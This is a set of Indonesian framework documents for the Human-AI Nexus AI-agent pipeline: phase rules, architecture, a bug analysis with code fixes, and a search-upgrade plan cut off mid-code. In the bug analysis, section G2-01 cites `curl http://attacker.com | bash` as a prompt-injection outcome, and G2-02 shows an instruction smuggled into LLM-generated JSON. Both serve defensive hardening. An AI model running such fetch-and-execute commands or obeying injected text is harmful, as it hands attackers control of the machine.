### 📜 RULE: PIPELINE_VISUAL.md
# 📊 Visualisasi Pipeline NEXUS AI

Dokumen ini berisi representasi visual dan penjelasan mendalam mengenai alur kerja **Nexus Engine** dalam mengelola kolaborasi Human-AI.

---

## 🗺️ Diagram Alur Pipeline



---

## 📝 Penjelasan Detail Tiap Fase

### 🛠️ Phase 0: Inisialisasi (`INIT`)
*   **Aksi**: Sistem memetakan folder proyek, mendeteksi keberadaan folder `nexus/`, dan menyiapkan lingkungan eksekusi.
*   **Intel**: Memeriksa `package.json` untuk memastikan seluruh dependensi engine tersedia.

### 🔍 Phase 1: Audit (Scanning & Intelligence)
*   **Tujuan**: Mengidentifikasi celah keamanan, bug, atau potensi optimasi.
*   **Mode Kerja**:
    *   **Learning**: Memberikan edukasi kepada developer melalui laporan spesialis (Cyber, UX, SEO).
    *   **Efficient**: Fokus pada resolusi cepat dengan laporan tunggal dari PM.
*   **Guardrails**: Engine dilarang memindai file sensitif tanpa persetujuan eksplisit dari User.

### 📅 Phase 2: Planning (Strategi & Kontrak)
*   **Tujuan**: Menyusun *Implementation Plan* sebagai kontrak kerja AI.
*   **Logika**: Mengubah setiap temuan audit menjadi tugas (tasks) yang terukur.
*   **Output**: File `.md` di folder `documentation/planning/` yang harus ditinjau manusia.

### 🚀 Phase 3: Execution (Pengerjaan)
*   **Tujuan**: AI melakukan modifikasi kode atau pembuatan fitur.
*   **Aturan**: AI hanya diperbolehkan menjalankan perintah yang sesuai dengan *Implementation Plan* yang telah disetujui.

### 🔍 Phase 4: Verification (Quality Control)
*   **Tujuan**: Validasi hasil kerja.
*   **Mekanisme**: Membandingkan status proyek terbaru dengan target yang ditetapkan di Phase 1 & 2.
*   **Zero Flaws**: Jika ditemukan ketidaksesuaian, sistem akan memaksa siklus kembali ke Phase 1.

### 📝 Phase 5: Finalization & Records
*   **Tujuan**: Pencatatan sejarah dan pembaruan pengetahuan.
*   **Output**: 
    *   `memory/short_term/`: Log lengkap setiap siklus.
    *   `memory/long_term/`: Ringkasan pelajaran teknis untuk referensi di masa depan (The HUB).
    *   **🧠 Universal Nexus Collision Logic (Opsi A maupun Opsi B)**:
        *   Logika ini adalah standar baku yang diterapkan di seluruh pipeline **HUB (Knowledge)** dan **SKILL**.
        *   **Kondisi**: Terjadi saat ada kemiripan antara "A" (yang sudah ada) dan "B" (yang baru masuk/direfactor), baik itu berupa teori di HUB maupun instruksi teknis di SKILL.
        *   **Implementasi di HUB & SKILL**:
          Opsi A: { Standard_Pattern_A } 
          Opsi B: { Alternative_Pattern_B }
          (Opsi Tak Terbatas untuk variasi solusi)
        *   **Alur Refactoring Universal**:
            1.  **HUB Refactor**: Menggabungkan variasi dokumentasi fitur di folder `memory/long_term/`.
            2.  **SKILL Refactor**: Jika di folder `skill/` ditemukan teknik koding baru yang mirip dengan yang lama, keduanya disimpan sebagai **Pilihan Opsi (A/B/dst)** sebagai pilihan strategi bagi agen.
        *   **Tujuan**: Menjamin bahwa sistem tidak hanya memiliki satu cara kerja, melainkan sebuah **"Decision Tree"** dengan opsi tak terbatas yang kaya bagi AI untuk memilih solusi paling optimal (Context-Aware).

### 🌾 Phase 6: Harvesting (Cross-Project Knowledge)
*   **Tujuan**: Sinkronisasi pengetahuan lintas proyek.
*   **Aksi**: Mengumpulkan dokumentasi "Emas" dari proyek lain ke dalam `golden/` hub pusat.

---
*Dokumen ini merupakan bagian dari standar operasional Human-AI Nexus.*

---


### 📜 RULE: architecture.md
# System Architecture

The Human-AI Nexus is built as a modular orchestration system.

## Architecture Diagram


## Components

### 1. Nexus Orchestrator (`NexusEngine.js`)
The central brain that coordinates the flow between phases. It ensures that data from the Audit phase is correctly passed to Planning, and that Execution only happens after approval.

### 2. Agent Layer
A collection of markdown files in `agent/` that define the persona, responsibilities, and guardrails for different AI agents (e.g., Architect, Engineer, QA).

### 3. Skill Layer
Technical standards and "best practice" snippets in `skill/` that guide the agents during the Execution phase.

### 4. Persistence Layer
Folders for `audit`, `planning`, `records`, and `knowledge` that ensure every step of the process is documented and persisted for long-term project memory.

---

## Ecosystem Integration

Nexus AI is designed to be highly portable and integrable with existing codebases.

- **External Pipeline**: The system intelligently detects and manages project-specific documentation and local AI "brains" inside the project root.
- **Deep Recaps**: Detailed documentation on how the engine interacts with external environments:
    - [Internal Pipeline Recap](NEXUS_INTERNAL_PIPELINE_RECAP.md)
    - [External Pipeline Recap](NEXUS_EXTERNAL_PIPELINE_RECAP.md)


---


### 📜 RULE: getting-started.md
# Getting Started with Human-AI Nexus

Human-AI Nexus is a framework designed to bridge the gap between human intent and AI execution through structured documentation and automated orchestration.

## Installation

### As a CLI tool
You can install the framework globally or run it via npx:

```bash
# Recommended if not published:
npx github:Faisal-Trainer/Human-AI-Nexus

# If published to npm:
npx @faisal-trainer/human-ai-nexus
```

### For Development
Clone the repository and install dependencies:

```bash
git clone https://github.com/Faisal-Trainer/Human-AI-Nexus.git
cd Human-AI-Nexus
npm install
```

## Basic Usage

To start a standard workflow cycle (Audit -> Plan -> Execute), run:
    
```bash
npx github:Faisal-Trainer/Human-AI-Nexus nexus run
```

*Note: You can also use `npm start` if you are working within the framework source directory.*

## Core Concepts

1.  **Documentation-First**: No code is written before a plan is approved.
2.  **Traceability**: Every action is linked to an audit finding and a plan.
3.  **Recursive Audit**: The cycle repeats until "Zero Flaws" are achieved.

## Project Structure

- `agent/`: Specialized role descriptions for AI agents.
- `audit/`: Generated audit reports.
- `documentation/planning/`: Implementation plans.
- `skill/`: Technical standards and snippets.
- `src/`: Core Nexus Engine source code.

---


### 📜 RULE: workflow.md
# Nexus Workflow

The Human-AI Nexus follows a 4-phase cyclical workflow designed to ensure maximum quality and traceability.

## 1. Audit Phase
The system (or specialized agents) scans the current state of the project.
- **Security Guardrails**: The engine will request explicit permission before scanning sensitive files (`.env`, `package.json`, `composer.json`).
- **Input**: Source code, documentation, and (if permitted) configuration files.
- **Output**: An Audit Report in `audit/`.
- **Goal**: Identify gaps, bugs, or opportunities for improvement.

## 2. Planning Phase
Based on the audit report, a detailed plan is generated.
- **Input**: Audit Report.
- **Output**: Implementation Plan in `documentation/planning/`.
- **Human Role**: Review and approve the plan.

## 3. Execution Phase
Specialized agents execute the tasks defined in the plan.
- **Input**: Approved Implementation Plan.
- **Action**: Code generation, configuration updates, or content creation.
- **Constraint**: Agents must follow the standards in `skill/`.

## 4. Finalization Phase
The results are recorded and the knowledge base is updated.
- **Input**: Execution results.
- **Output**: Logs in `memory/short_term/` and summaries in `documentation/summary/`.
- **Loop**: Trigger a new Audit to verify the changes.

---

### Zero Flaws Enforcement
The cycle repeats until an audit results in "Zero Flaws". This ensures that no technical debt or bugs are left behind.

---


## 🧠 DEEP WISDOM INJECTION (Phase 5 Institutionalization)
> Data ini adalah bagian dari memori inti agen yang diserap dari Knowledge Base.

### 📘 KNOWLEDGE: NEXUS_AI_NEXT_GEN_BUGS.MD

# NEXUS AI — Prediksi Bug Generasi Berikutnya
> **VERSION**: v1 | **Last Updated**: 26/05/2026


**Tipe Dokumen:** Predictive Failure Analysis  
**Basis:** Source code review mendalam — setelah seluruh bug generasi pertama diselesaikan  
**Metodologi:** Setiap bug diprediksi dari pola kode aktual, bukan spekulasi  

> **Konteks:** Dokumen ini menjawab pertanyaan: *"Setelah semua bug R-01 s/d R-08 selesai, bug apa yang akan muncul selanjutnya?"*  
> Semua temuan di sini berakar pada kode yang sudah ada — bukan fitur baru.

---

## Klasifikasi

| Kode | Severity | Kategori |
|------|----------|----------|
| G2-01 | 🔴 Kritis | Logic Bug |
| G2-02 | 🔴 Kritis | Security |
| G2-03 | 🔴 Kritis | Data Integrity |
| G2-04 | 🔴 Kritis | Concurrency |
| G2-05 | 🟡 Sedang | Logic Bug |
| G2-06 | 🟡 Sedang | Performance |
| G2-07 | 🟡 Sedang | Logic Bug |
| G2-08 | 🟡 Sedang | Data Integrity |
| G2-09 | 🟡 Sedang | Logic Bug |
| G2-10 | 🟢 Minor | Reliability |
| G2-11 | 🟢 Minor | Correctness |
| G2-12 | 🟢 Minor | Logic |

---

## 🔴 Bug Kritis

---

### G2-01 — `COMMAND_EXEC` di Modifier Adalah Arbitrary Code Execution
**File:** `agent/core/Modifier.js`, baris ~45  
**Kode aktual:**
```javascript
case 'COMMAND_EXEC':
    const { execSync } = require('child_process');
    execSync(action.command, { cwd: this.rootPath, stdio: 'ignore' });
    return true;
```

**Mengapa ini akan meledak setelah R-01 selesai:**  
Setelah `spawnRealLaravel()` diimplementasikan dan pipeline benar-benar berjalan, `COMMAND_EXEC` akan digunakan aktif — untuk `composer install`, `artisan migrate`, dan seterusnya. Masalahnya: `action.command` adalah string bebas yang datang dari hasil LLM (`blueprintApp` → `generate_architecture`). LLM bisa menghasilkan command apa saja.

**Skenario kegagalan konkret:**
- LLM menghasilkan blueprint dengan `"command": "rm -rf vendor && composer install"` → vendor terhapus
- LLM menghasilkan `"command": "curl http://attacker.com | bash"` jika prompt injection berhasil
- `execSync` bersifat **synchronous dan blocking** — satu command yang hang (misal `composer install` lambat) memblokir seluruh event loop Node.js

**Fix:**
```javascript
// 1. Ganti execSync dengan spawn async
// 2. Tambahkan whitelist command yang diizinkan
const ALLOWED_COMMANDS = ['composer', 'php', 'npm', 'node'];
const cmdParts = action.command.split(' ');
if (!ALLOWED_COMMANDS.includes(cmdParts[0])) {
    throw new Error(`COMMAND_EXEC: Command "${cmdParts[0]}" not in whitelist`);
}
// 3. Gunakan spawn, bukan execSync
await spawnAsync(cmdParts[0], cmdParts.slice(1), { cwd: this.rootPath });
```

---

### G2-02 — `blueprintApp()` Mem-parse JSON dari LLM Tanpa Validasi Schema
**File:** `agent/core/NexusEngine.js`, metode `blueprintApp()`  
**Kode aktual:**
```javascript
const jsonMatch = response.match(/\{[\s\S]*\}/);
const blueprint = JSON.parse(jsonMatch ? jsonMatch[0] : response);
await fs.writeJson(blueprintPath, blueprint, { spaces: 2 });
```

**Mengapa ini akan meledak:**  
Setelah pipeline berjalan end-to-end, `blueprint` menjadi sumber kebenaran untuk seluruh `ImplementationPhase` — menentukan model apa yang dibuat, migration apa yang dijalankan, dan Livewire component apa yang di-generate. LLM tidak selalu menghasilkan struktur yang persis sama.

**Skenario kegagalan konkret:**
- LLM menambahkan key tambahan: `"dependencies": ["laravel/telescope"]` → `ImplementationPhase` mengiterasi key yang tidak dikenal, tidak error, tapi menghasilkan file-file aneh
- LLM menghasilkan `"models": "User"` (string, bukan array) → `for (const model of models)` throw `TypeError: models is not iterable`
- LLM menambahkan instruksi dalam natural language di dalam JSON: `"models": ["User", "IMPORTANT: also add Admin model"]` → file bernama `IMPORTANT: also add Admin model.php` dibuat di filesystem

**Fix:**
```javascript
const BLUEPRINT_SCHEMA = {
    required: ['project_name', 'models', 'migrations', 'livewire_components'],
    arrays: ['models', 'migrations', 'livewire_components'],
    strings: ['project_name']
};

function validateBlueprint(bp) {
    for (const key of BLUEPRINT_SCHEMA.required) {
        if (!(key in bp)) throw new Error(`Blueprint missing required key: ${key}`);
    }
    for (const key of BLUEPRINT_SCHEMA.arrays) {
        if (!Array.isArray(bp[key])) throw new Error(`Blueprint key "${key}" must be array`);
        // Sanitize: hanya izinkan nama yang valid (alphanumeric + underscore)
        bp[key] = bp[key].filter(v => typeof v === 'string' && /^[a-zA-Z_][a-zA-Z0-9_]*$/.test(v));
    }
    return bp;
}
```

---

### G2-03 — `wrapAsConditional()` Menyebabkan Collision Accumulation yang Tidak Pernah Diselesaikan
**File:** `agent/core/NexusEngine.js`, metode `wrapAsConditional()`  
**File terkait:** `agent/core/phases/KnowledgePhase.js`, metode `harvest()`

**Kode aktual:**
```javascript
// NexusEngine.js
wrapAsConditional(existing, added, context = 'Nexus Knowledge') {
    return `\n# NEXUS COLLISION RESOLVED: ${context}\nOpsi A:\n${existing}\nOpsi B:\n${added}\n`;
}

// KnowledgePhase.js - saat harvest menemukan file yang sudah ada:
const merged = this.engine.wrapAsConditional(oldContent, newContent, `Collision in ${file}...`);
await fs.writeFile(targetPath, merged);
```

**Mengapa ini akan meledak setelah knowledge loop aktif:**  
Setiap kali sandbox ke-2, ke-3, ke-4 di-harvest dan menemukan file knowledge yang sudah ada, file itu di-wrap lagi. Tidak ada mekanisme yang menyelesaikan collision ini secara otomatis. Setelah 10 sandbox, satu file knowledge bisa berisi 10 level nesting `Opsi A / Opsi B`.

**Skenario kegagalan konkret:**
- `Distiller.simplifyContent()` mencoba meringkas file yang isinya adalah collision block bersarang → LLM menghasilkan ringkasan tidak koheren
- `getSemanticTags()` mencari regex `METADATA` tapi terhalang oleh collision headers → semantic index tidak dibangun
- File knowledge tumbuh eksponensial: 100 sandbox × rata-rata 5 collision = file berukuran puluhan MB

**Fix:** Tambahkan collision resolver otomatis di `MemoryPipeline.processHarvestData()` — gunakan `DecisionEngine` yang sudah ada untuk memilih versi terbaik, atau merge secara semantic, bukan hanya append.

---

### G2-04 — `ParallelRunner` Membuang Semua Hasil Jika Satu Worker Throw
**File:** `agent/core/ParallelRunner.js`  
**Kode aktual:**
```javascript
static async run(items, taskFn, limit = 3) {
    const results = new Array(items.length);
    let index = 0;
    
    const worker = async () => {
        while (index < items.length) {
            const currentIndex = index++;
            try {
                results[currentIndex] = await taskFn(items[currentIndex]);
            } catch (e) {
                results[currentIndex] = e;
                throw e;  // ← INI MASALAHNYA
            }
        }
    };

    const workers = [];
    for (let i = 0; i < Math.min(limit, items.length); i++) {
        workers.push(worker());
    }

    await Promise.all(workers);  // ← Jika satu throw, semua dibatalkan
    return results;
}
```

**Mengapa ini akan meledak:**  
`AuditPhase` memanggil `ParallelRunner.run(specialists, ...)` dengan 6 specialist. Jika specialist ke-3 (misal `database-architect`) throw error karena project tidak punya database files, `Promise.all` akan **reject seluruh batch**. Hasil dari specialist 1 dan 2 yang sudah selesai dengan sukses dibuang begitu saja.

**Skenario konkret:**  
Project baru yang di-audit tidak punya `database/` folder. `database-architect` scanner throw "No migration files found". Seluruh audit phase gagal. Laporan dari `cyber-security`, `ux-engineer`, dan `seo-performance` yang sudah selesai tidak pernah tersimpan.

**Fix:**
```javascript
} catch (e) {
    results[currentIndex] = { error: e.message, severity: 'SCANNER_ERROR' };
    // Jangan throw — catat error tapi lanjut ke item berikutnya
}
```

---

## 🟡 Bug Sedang

---

### G2-05 — `blueprintApp()` Hanya Berjalan Jika README Mengandung Magic String
**File:** `agent/core/NexusEngine.js`  
**Kode aktual:**
```javascript
async blueprintApp(options = {}) {
    const readmePath = path.join(this.rootPath, 'README.md');
    if (!(await fs.pathExists(readmePath))) return;
    const readmeContent = await fs.readFile(readmePath, 'utf8');
    if (!readmeContent.includes('Generated by Nexus Autonomous Pipeline')) return;
    // ...
}
```

**Masalah:**  
`blueprintApp` hanya berjalan jika README mengandung string `'Generated by Nexus Autonomous Pipeline'`. Sandbox yang dibuat oleh `spawnRealLaravel()` (setelah R-01 difix) menggunakan template Laravel default yang **tidak mengandung string ini**. Artinya `blueprintApp` selalu di-skip → tidak ada blueprint → `ImplementationPhase` selalu skip karena `NEXUS_BLUEPRINT.json` tidak ada.

**Dampak:** Seluruh code generation phase tidak pernah berjalan pada project baru yang di-spawn.

**Fix:** Buat `spawnRealLaravel()` menulis README dengan magic string tersebut, atau ubah kondisi menjadi opt-in yang lebih fleksibel:
```javascript
const isNexusManaged = readmeContent.includes('Generated by Nexus') || 
                       await fs.pathExists(path.join(this.rootPath, 'NEXUS_BLUEPRINT.json'));
if (!isNexusManaged) return;
```

---

### G2-06 — `MemoryGovernor.ensureDirectories()` Dipanggil Synchronous di Constructor
**File:** `agent/core/MemoryGovernor.js`  
**Kode aktual:**
```javascript
constructor(rootPath) {
    this.rootPath = rootPath;
    this.memoryPath = path.join(this.rootPath, 'memory');
    this.ensureDirectories(); // ← synchronous fs call di constructor
}

ensureDirectories() {
    const dirs = ['raw', 'normalized', 'semantic', 'distilled', ...];
    dirs.forEach(dir => {
        fs.ensureDirSync(path.join(this.memoryPath, dir)); // ← blocking I/O
    });
}
```

**Masalah:**  
`NexusEngine` membuat `new MemoryGovernor(rootPath)` di constructor-nya. Ini memicu 7 `fs.ensureDirSync` secara synchronous di startup. Pada sistem dengan I/O lambat (NFS mount, Docker volume, Windows dengan antivirus), ini bisa memblokir thread utama 100-500ms per direktori.

Setelah R-01 difix dan 100 sandbox berjalan, ini menjadi bottleneck nyata — setiap sandbox spawn membuat `NexusEngine` baru (atau me-reset root path), dan setiap reset memicu 7 blocking I/O calls lagi.

**Fix:** Ubah `ensureDirectories()` menjadi async dan panggil di `initRedis()` atau buat `static async create(rootPath)` factory method.

---

### G2-07 — `Machinist.integrate()` Memodifikasi `NexusEngine.js` dengan String Replacement Rapuh
**File:** `agent/core/Machinist.js`  
**Kode aktual:**
```javascript
async integrate(name, type = 'auditor') {
    let content = await fs.readFile(this.enginePath, 'utf8');
    
    const requireAnchor = "const Distiller = require('./Distiller');";
    content = content.replace(
        requireAnchor,
        `${requireAnchor}\nconst ${name} = require('${relPath}');`
    );

    const initAnchor = "this.distiller = new Distiller(this.knowledgePath);";
    content = content.replace(
        initAnchor,
        `${initAnchor}\n        this.${instanceName} = new ${name}(this.rootPath);`
    );

    await fs.writeFile(this.enginePath, content);
}
```

**Masalah:**  
`Machinist.integrate()` memodifikasi source code `NexusEngine.js` hidup-hidup dengan mencari string literal `"const Distiller = require('./Distiller');"` sebagai anchor point. Ini akan gagal jika:
1. Developer menambahkan komentar setelah baris tersebut
2. Format file berubah (prettier/eslint auto-format mengubah spasi/quotes)
3. `integrate()` dipanggil dua kali untuk komponen berbeda → anchor pertama mungkin sudah berubah karena inject pertama

Setelah pipeline aktif dan Machinist mulai di-invoke untuk forging scanner baru, setiap call ke `integrate()` yang gagal meninggalkan `NexusEngine.js` dalam kondisi parsial-corrupt (anchor diganti tapi tidak semua inject berhasil).

**Fix:** Gunakan AST parser (seperti `@babel/parser` atau `acorn`) untuk modifikasi kode, bukan string replacement. Atau gunakan sentinel comment yang lebih robust: `// NEXUS_INJECT_REQUIRE` dan `// NEXUS_INJECT_INIT`.

---

### G2-08 — `MemoryPipeline.processHarvestData()` Menghapus Folder Harvest Setelah Proses
**File:** `agent/core/MemoryPipeline.js`  
**Kode aktual:**
```javascript
async processHarvestData() {
    // ... proses file harvest ...
    
    await fs.emptyDir(harvestPath);  // ← Hapus semua setelah proses
    console.log('   🧹 Harvest folder recycled.');
}
```

**Masalah:**  
`golden/harvest/` dikosongkan setelah setiap `processHarvestData()`. Jika proses di tengah-tengah crash (misalnya `versionedWrite()` gagal karena disk penuh), beberapa file sudah diproses dan dihapus dari harvest, tapi belum semua masuk ke HUB. Tidak ada cara untuk replay atau recovery. Data dari sandbox yang sudah di-destroy hilang permanen.

**Fix:** Gunakan move-then-delete, bukan copy-then-delete. Atau tambahkan transaction log: catat file yang sudah berhasil di-ingest sebelum `emptyDir`.

```javascript
const processedLog = path.join(harvestPath, '.processed.json');
const processed = [];
for (const file of files) {
    await this.versionedWrite(dest, content);
    processed.push(file);
    await fs.writeJson(processedLog, processed); // checkpoint
}
// Hanya hapus setelah semua berhasil tercatat
await fs.emptyDir(harvestPath);
```

---

### G2-09 — `Modifier.fileReplace()` Throw Jika Target Content Tidak Ditemukan (Tidak Di-handle)
**File:** `agent/core/Modifier.js`  
**Kode aktual:**
```javascript
async fileReplace(filePath, targetContent, replacementContent) {
    if (await fs.pathExists(filePath)) {
        let content = await fs.readFile(filePath, 'utf8');
        if (content.includes(targetContent)) {
            const newContent = content.replace(targetContent, replacementContent);
            await fs.writeFile(filePath, newContent);
            return true;
        }
        throw new Error(`Target content not found in file: ${filePath}`); // ← throw tanpa context
    }
    throw new Error(`File not found: ${filePath}`);
}
```

**Masalah:**  
`FILE_REPLACE` action dari `PlanningPhase` menggunakan content yang dihasilkan LLM sebagai `targetContent`. LLM mungkin menghasilkan konten yang sedikit berbeda dari file aktual (whitespace, newline, encoding). Akibatnya `fileReplace` selalu throw pada iterasi kedua ke atas karena file sudah dimodifikasi oleh iterasi pertama.

Di `ExecutionPhase`, error ini hanya di-catch dan dicatat sebagai `task.status = 'failed'` — lalu `continue` ke task berikutnya. Tidak ada rollback. Setelah 10 task, mungkin 6 berhasil dan 4 gagal diam-diam.

**Dampak nyata:** Developer melihat "✅ Execution phase completed" tapi setengah task tidak benar-benar dieksekusi.

**Fix:** `FILE_REPLACE` harus menjadi `FILE_PATCH` yang menggunakan diff/patch semantics, bukan exact string match. Atau tambahkan fuzzy matching dengan normalisasi whitespace sebelum cek `includes()`.

---

## 🟢 Bug Minor

---

### G2-10 — `LocalIntelligence` Circuit Breaker Tidak Pernah Kembali ke CLOSED
**File:** `agent/core/LocalIntelligence.js`  
**Kondisi:** Saat `failures >= threshold`, state berubah ke `OPEN`. Setelah `HALF_OPEN`, jika satu request berhasil, seharusnya kembali ke `CLOSED`. Jika implementasi HALF_OPEN tidak ada (atau hanya state label tanpa logika), circuit breaker hanya bisa OPEN permanen untuk satu session.

**Dampak:** Jika Ollama sempat timeout sekali di awal session, seluruh code generation diblokir untuk sisa session itu meskipun Ollama sudah kembali normal.

---

### G2-11 — `ensureEnv()` di Modifier Menggunakan Path yang Salah
**File:** `agent/core/Modifier.js`  
**Kode aktual:**
```javascript
async ensureEnv(filePath, key, value) {
    const envFile = path.resolve(this.rootPath, '.env');
    // ↑ Parameter `filePath` diabaikan sepenuhnya — selalu pakai rootPath/.env
```

**Masalah:** `action.target` dari task yang memanggil `ENV_ENSURE` sepenuhnya diabaikan. Jika task dimaksudkan untuk memodifikasi `.env` di dalam sandbox (bukan di rootPath), perubahan malah ditulis ke `.env` NEXUS engine itu sendiri.

---

### G2-12 — `getSemanticTags()` Regex Hanya Menangkap Satu Tag Block Per File
**File:** `agent/core/NexusEngine.js`  
**Kode aktual:**
```javascript
const match = content.match(/>\\s*\\*\\*METADATA.*\\*\\*:\\s*\\[(.*)\\]/i);
if (match) return match[1].split(',').map(t => t.trim().toLowerCase());
```

**Masalah:** `String.match()` tanpa flag `g` hanya menangkap kemunculan pertama. Setelah collision wrapping terjadi berulang kali (lihat G2-03), satu file bisa punya beberapa `METADATA` block. Hanya block pertama yang terbaca. Semantic index tidak lengkap.

---

## Ringkasan: Urutan Munculnya Bug

Setelah bug generasi pertama diselesaikan, urutan bug berikut yang paling mungkin muncul pertama kali berdasarkan jalur eksekusi:

```
nexus run (pertama kali setelah fix)
    │
    ├─ blueprintApp() ──────────────── [G2-05] magic string → blueprint tidak dibuat
    │
    ├─ AuditPhase (6 specialists)
    │   └─ ParallelRunner ───────────── [G2-04] satu scanner error → semua dibatalkan
    │
    ├─ ImplementationPhase
    │   └─ blueprintApp() skip
    │       └─ LLM generate JSON ──── [G2-02] schema tidak valid → TypeError di loop
    │
    ├─ ExecutionPhase
    │   └─ COMMAND_EXEC ─────────────── [G2-01] blocking execSync, no whitelist
    │   └─ FILE_REPLACE ─────────────── [G2-09] target content tidak ditemukan
    │
    └─ KnowledgePhase (harvest ke-2 dst)
        └─ collision ─────────────────── [G2-03] wrapAsConditional bertumpuk
        └─ emptyDir crash ───────────── [G2-08] data hilang tanpa recovery
```

**Bug yang paling berbahaya untuk diselesaikan lebih dulu (sebelum G2-01):** G2-04, karena ia menyembunyikan semua bug lain — jika satu scanner gagal, kamu tidak akan pernah tahu scanner mana yang berhasil dan mana yang tidak.

---

*Analisis ini berdasarkan pembacaan langsung file: `Modifier.js`, `NexusEngine.js` (blueprintApp, wrapAsConditional), `ParallelRunner.js`, `MemoryPipeline.js`, `KnowledgePhase.js`, `Machinist.js` (integrate), `LocalIntelligence.js`, `MemoryGovernor.js`.*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, vcs, api]

### 📘 KNOWLEDGE: NEXUS_NEXUS VECTOR SEARCH UPGRADE.MD

# 🧠 NEXUS UPGRADE PLAN: Vector Semantic Search Engine (v3.2.0)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> **STATUS**: Ready for Implementation  
> **Priority**: 🔴 Critical  
> **Target File**: `agent/core/Distiller.js` + `agent/core/NexusEngine.js`  
> **Author**: Nexus Senior AI Engineer Review  
> **Date**: 2026-05-13

---

## 🎯 Executive Summary

Sistem semantic search NEXUS saat ini menggunakan **regex string matching** untuk indexing dan retrieval knowledge dari HUB. Pendekatan ini mulai menjadi bottleneck di 30 project — dan akan **gagal secara signifikan** di 100 project ketika HUB berisi 200+ file wisdom.

Dokumen ini mendefinisikan upgrade ke **TF-IDF Vector Search** yang ringan, tidak butuh cloud, dan bisa jalan optimal di RAM 8GB.

---

## 🔍 Diagnosis Masalah Saat Ini

### Problem 1: `getSemanticTags()` di NexusEngine.js

```javascript
// SEKARANG — Rapuh & terbatas
async getSemanticTags(filePath) {
    const content = await fs.readFile(filePath, 'utf8');
    const match = content.match(/>\\s*\\*\\*METADATA.*\\[(.*)\\]/i);
    if (match) {
        return match[1].split(',').map(t => t.trim().toLowerCase());
    }
    return []; // ← Kalau file tidak punya metadata block = BLIND
}
```

**Masalah**: Kalau file baru belum punya metadata block `NEXUS SEMANTIC TAGS`, fungsi ini return array kosong. Agent tidak bisa temukan file itu via semantic search — **invisible di HUB**.

---

### Problem 2: `identifyCategory()` di Distiller.js

```javascript
// SEKARANG — Hardcoded keyword list
identifyCategory(content) {
    const tagMap = {
        'security': ['auth', 'encryption', 'password', ...],
        'database': ['query', 'schema', 'sql', ...],
        // ...
    };
    // Ambil category PERTAMA yang match — bisa salah
    for (const [tag, keywords] of Object.entries(tagMap)) {
        if (keywords.some(kw => lowerContent.includes(kw))) return tag;
    }
    return 'other'; // ← Fallback kasar
}
```

**Masalah**: File yang membahas "security in database queries" akan dikategorikan `security` saja, padahal relevan juga ke `database`. **Multi-label tidak didukung**.

---

### Problem 3: `searchKnowledge()` di NexusEngine.js

```javascript
// SEKARANG — Hanya exact tag match
async searchKnowledge(tag) {
    const results = this.memory.semanticIndex[tag.toLowerCase()] || [];
    return results; // ← Tidak ada ranking relevansi
}
```

**Masalah**: Query `"session security"` tidak akan match file berlabel `"auth, oauth"` meskipun kontennya sangat relevan.

---

## ✅ Solusi: TF-IDF Vector Engine

### Kenapa TF-IDF, Bukan LLM Embedding?

| Kriteria                 | TF-IDF                     | LLM Embedding       |
| :----------------------- | :------------------------- | :------------------ |
| RAM Usage                | ~50MB                      | ~2-4GB              |
| Kecepatan indexing       | Milidetik                  | Detik per file      |
| Akurasi                  | Baik untuk domain spesifik | Sangat baik         |
| Butuh internet           | ❌ Tidak                   | ⚠️ Tergantung model |
| Cocok untuk 8GB RAM      | ✅ Ya                      | ⚠️ Berat            |
| Cocok untuk 100-500 file | ✅ Ideal                   | Overkill            |

**Kesimpulan**: Untuk skala 100-500 file wisdom teknikal, TF-IDF adalah pilihan paling optimal. LLM embedding baru worth it di Phase 5+ ketika HUB mencapai ribuan file.

---

## 📦 Instalasi

```bash
# Di root NEXUS AI
npm install natural
```

> `natural` adalah NLP library Node.js yang include TF-IDF, stemmer, dan tokenizer. Size: ~15MB. Zero external dependency.

---

## 🔧 Implementasi

### STEP 1 — Buat File Baru: `agent/core/SemanticEngine.js`

Buat file baru ini sebagai modul standalone yang bisa dipanggil oleh `Distiller` dan `NexusEngine`.

````javascript
// agent/core/SemanticEngine.js
// NEXUS Semantic Engine v1.0 — TF-IDF Based Knowledge Retrieval
// Replaces regex-based tagging with intelligent vector scoring

const natural = require("natural");
const fs = require("fs-extra");
const path = require("path");

class SemanticEngine {
  constructor(knowledgePath) {
    this.knowledgePath = knowledgePath;
    this.tfidf = new natural.TfIdf();
    this.fileIndex = []; // [{ file, path, tags }]
    this.isBuilt = false;

    // Domain vocabulary untuk TALL Stack context
    this.domainVocab = {
      security: [
        "auth",
        "authentication",
        "authorization",
        "password",
        "token",
        "oauth",
        "csrf",
        "xss",
        "encryption",
        "bcrypt",
        "guard",
        "middleware",
        "2fa",
        "jwt",
        "session",
        "keamanan",
        "sanctum",
      ],
      database: [
        "migration",
        "schema",
        "eloquent",
        "query",
        "model",
        "pivot",
        "relationship",
        "hasMany",
        "belongsTo",
        "index",
        "uuid",
        "foreign",
        "seeders",
        "factory",
        "database",
        "sql",
      ],
      "ui-ux": [
        "livewire",
        "alpine",
        "blade",
        "component",
        "reactive",
        "design",
        "layout",
        "tailwind",
        "responsive",
        "accessibility",
        "modal",
        "form",
        "validation",
        "frontend",
        "estetika",
        "wire:model",
      ],
      performance: [
        "cache",
